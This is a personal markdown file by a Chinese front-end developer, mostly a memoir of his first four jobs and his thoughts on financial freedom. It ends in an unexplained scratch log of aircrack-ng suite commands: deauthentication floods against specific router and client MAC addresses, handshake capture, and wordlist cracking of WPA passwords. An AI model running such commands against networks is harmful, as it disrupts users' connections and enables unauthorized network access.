 <!--
 * @Author: sunji 2025506282@qq.com
 * @Date: 2022-09-13 14:28:14
 * @LastEditors: sunji 2025506282@qq.com
 * @LastEditTime: 2022-11-18 10:51:46
 * @FilePath: \front-end\test.md
 * @Description: 这是默认设置,请设置`customMade`, 打开koroFileHeader查看配置 进行设置: https://github.com/OBKoro1/koro1FileHeader/wiki/%E9%85%8D%E7%BD%AE
-->

😄 年少太轻狂，误入互联网；

😧 初来读书少，两眼直茫茫。

😝 语言数十种，前端称擅长；

😆 三十而立时，无房单身郎

😆 梦中忽惊醒，前途秒茫茫

我很庆幸自己进了前端这个行业。因为在这个职业范畴里面，我只要足够天赋和努力的话，我能够财务自由。虽然现在碌碌无为，但是也是给了我一点希望

# 什么是财务自由?

每个人都希望自己财务自由,什么是财务自由,网上众说纷纭,在绝大多数人眼中,就是不需要上班,想干嘛就干嘛.那么这需要多少钱呢?每一个人对生活品质的追求不一样.有的人可能需要一百万,有人需要一千万,有人需要一亿.对于实现财务自由:

1.  出租房子/商铺的租金
2.  长期投资的股票/基金的收益和分红
3.  你做了一个比较好的付费 APP，持续能带来收益
4.  你写了一本比较好的书，每年都能卖出去很多
5.  你制作了一套教程或视频，每年都有人买(比如掘金课程、慕课视频等)

好吧, 这些我都不行,我到底该如何做

## 那么我有什么呢?

1. 存款: 40w 存款(公积金+存款)
2. 房子车子: 无房无车
3. 关系: 父母都是普通的农民,认识最大的领导也就是年薪 100w 左右
4. 文凭: 本科
5. 技能: 计算机二级\英语四级
6. 经验: 五年的程序员经验\小时候农村生活经验

## 能做什么

1. 前端能做的都可以，除了一些 3d 方面的
2. 后端增删查改也可以
3. 抖音 3900 粉丝,YouTube 一万二粉丝

# 背景

毕业与一个普通本科，生物技术专业，大学里面简单自学了一点 jQuery,html,css,js。就一个人独自前往了大上海投奔了我的阿姨（\*我的阿姨也是租的房子），在哪里开始了找工作之旅

### [2017-6] 第一份工作

与 2017 年 6 月来到上海，当时找了一个月才找到，也从阿姨家搬出，因为当时啥也不懂，也导致一不小心入了个和开发不是很搭边的岗位，岗位叫内容开发师。工作内容就是简单修改一些文字标题，修改一下样式，以及做一些内容试卷，干了 6 个月左右，出了一个线上 bug,由于当时把标题改错了，如`2018年税务师考试`写成`2017年税务师考试`，然后客户不愿意给钱，理由是有损企业形象；说是损失了几百万，boss 很生气，这个锅然后甩给了我。领导就找我谈话，说这个岗位不适合我，叫我换岗到运营，当时真的什么也不懂，感觉很丢脸，也不懂得要赔偿，不知不觉就说了我愿意辞职，然后第二天就顺利的下岗了。
总结一下：第一份工作，实习工资 6k，可以说是我工作以来最全心全意的一份工作了，一心的只想把事情做好。可惜啊，天不随人愿，这也为我以后的职场老油条埋下了伏笔

### [2018]第二份工作

上集说到被迫辞职了，就继续找工作呗，找了一个月，眼看就要过年了，得了，不找了。去了趟合肥，干啥，找我老爸，当时我老爸在合肥工作，待了几天没事做，想想，在合肥找一找吧。没想到一下就找到了。是一个创业公司。这家公司特别奇葩。当时加上我一个一共 7 个人。一进去就感觉氛围不对。当时公司的配置是：一个前端（我），一个后端（刚毕业啥都不会），一个 UI(老鸟)，二个运营（一个老鸟一个未毕业），一个产品（啥都不会），一个东北 boss(啥都不是)；这个老板是想做一个护肤品网站，想在网站上卖护肤品，入职第一天，

- 我就装了一下环境，重装了系统。一天就这么过去了，这为以后买下了伏笔。
- 第二天就开始做事了，我是一个自来熟的性格，加上办公室人不多，很快就打成一片。当我做静态界面的时候，boss 把产品开了，只听他说这个流程图太简单了，我也能做。
- 第三天他在办公室贴了一张纸，写着上班玩手机扣钱，迟到早退扣钱，不打开扣钱，不打扫卫生扣钱（卫生需要轮班的）列了差不多十来条。这条公告一出，UI 不干了，当天辞职，他当时工资最高 6k,拍拍屁股 88 了您讷。他走的那天我已经做好两个页面了，当我和后端对接的时候，我才发现后端是个菜鸡，他竟然要做 jsp 页面，让我直接给他做静态页面。等我把第一个页面给他的时候，他后面就在慢慢的做了，一直到我走的时候啥都没弄出来，
- 第五天周五然后说为了赶进度，大家周六加一天班，好吧，加班加班就加呗，谁让咱是一个小菜鸡呢，然后就加了一天。
- 终于熬到了下周一，也就是我辞职的那天,boss 统计了一下上周任务情况，把我叫到了办公室，当说到我来的第一天啥都没干的时候，就装了环境和重装系统，质问就安装了一下环境，重装了系统就要了一天。好吧，本来我就有了跑路的觉悟，我就借坡下驴，哈哈，我说不干了，由于没有签合同，我要求老板马上工资结一下，他不干，我说必须给，你连合同都没有钱，我凭证都没有，老板就是不给，我说好的你等着。猜猜我咋做的。我就赖在我的办公位没走，做什么呢，打电话。首先百度一下劳动仲裁电话，然后就打，结果全都打不通，好不容易打通了一个，说不管这个的，给了我另一个号码，继续打。老板慌了，他就在隔壁，能听得到。立马出来，把我叫到一个门外，说给我一个面子，然后支付宝给我转了钱

总结一下：这份工作虽然只干了七天，但是现在想想挺有意思的。虽然最终没有走上劳动仲裁的路，但是增强了我的信心

### [2018]第三份工作

上集说到，第二份工作干了 7 天辞职了，虽然已经有两份工作经验了，但是一个完整的项目经验都是没有的，还是非常菜。但是这次比较幸运，下家第二天就找到了，第三天就入职了。这家公司叫德纵信息技术有限公司，老板姓丁，是浙江台州人，面试我的是一个后端叫文强，我们叫他强哥。面试我的就是强哥，因为没有前端，强哥没有问我技术，因为他也不会，简单的聊了一下，问我会不会 vue,我说会，其实啥都不会，就这样稀里糊涂的入了职。德纵一共六个人丁总（boss),胡总(合伙人兼产品经理),我,UI,强哥(后端),行政,在这里我愉快的度过了一年，学到了很多，做了 PC 端，移动端，小程序，公众号，也是我成长最快的一年，干了一年左右，后来觉得翅膀硬了，要见识一下，大公司是咋样，要不然一致摸着石头过河，后来要搬到另外一个区，我就索性辞职了

### [2019]第四份工作

这份工作是两个月，公司名称谊品生鲜，可以说是 996，工资到达 8 千，加上来回路途差不多两个小时，非常累，后来有一天晚上，下完地铁，准备骑着小毛驴回家。结果我七百块的买的二手电瓶车被偷了，我真想问问小偷你怎么忍心，我至今还记得那个被偷的地方是做葛大店地铁站。

### 经典语句

疫情的时候 BOSS 直聘活了，粮食，能源

😄 年少太轻狂，误入互联网；

😧 初来读书少，两眼直茫茫。

😝 语言数十种，前端称擅长；

😆 三十而立时，无房单身郎

啊，这种没睡午觉，困到要猝死的感觉，好爽

作为局外人，我没有任何情绪上的表达，我的烦恼也许不比她少，她的快乐也许会比我多。但我希望，她能够在下一段婚姻中可以迎来安稳的生活，她的人生从此顺遂。

airodump-ng -w freedom -c 6 --bssid 4C:BC:98:12:52:E7 wlan0 -ignore-nefative-oneaa

aireplay-ng -0 10 -a 4C:BC:98:12:52:E7 -c 30:03:C8:B6:D2:9F wlan0

4C:BC:98:12:52:E7
aireplay-ng -0 0 -a 4C:BC:98:12:52:E7 wlan0

4C:BC:98:12:52:E7 BC:6E:E2:D3:2E:A8 -1 24e- 0 0 33  
 4C:BC:98:12:52:E7 8C:B8:7E:AF:37:B4 -1 24e- 0 0 20  
 4C:BC:98:12:52:E7 7C:94:2A:DE:4D:5F -14 24e- 6e 3945 44111  
 4C:BC:98:12:52:E7 08:16:D5:4B:EA:CE -24 24e- 6e 0 271  
 4C:BC:98:12:52:E7 8E:D8:B5:AC:47:C2 -22 1e-12e 32 3073  
 4C:BC:98:12:52:E7 CC:C9:5D:19:61:E1 -32 5e- 1 0 29 ihaier?

7C:94:2A:DE:4D:5F E0:0A:F6:5B:0D:01
30:03:C8:B6:D2:9F
aireplay-ng -0 10 -a 4C:BC:98:12:52:E7 -c 30:03:C8:B6:D2:9F wlan0mon

sudo airodump-ng -w test -c 6 --bssid 4C:BC:98:12:52:E7 wlan0mon
sudo aireplay-ng -0 50 -a 4C:BC:98:12:52:E7 -c 7C:94:2A:DE:4D:5F wlan0mon

sudo airodump-ng -w test -c 6 --bssid 58:41:20:B9:4B:79 wlan0mon

80:45:DD:34:11
1C:BF:C0:75:15:A9
5C:3A:45:DA:68:37
80:45:DD:34:11:B0  
 sudo aireplay-ng -0 50 -a 58:41:20:B9:4B:79 -c 26:A5:6B:78:E0:B2 wlan0mon # 50 是发包的数量 -a 指定路由器的 MAC 地址 -c 指定连接的客户端的 MAC 地址

sudo aircrack-ng -w /usr/share/wordlists/rockyou.txt -b 58:41:20:B9:4B:79 test-01.cap #-w 指定密码字典 -b 指定路由器的 MAC 地址

sudo aircrack-ng -w /usr/share/wordlists/rockyou.txt -b 4C:BC:98:12:52:E7 test-01.cap
26:A5:6B:78:E0:B2
3E:BA:2B:0C:79:2E

sudo aircrack-ng -w /home/kali/桌面/pass.txt -b 58:41:20:B9:4B:79 test-01.cap
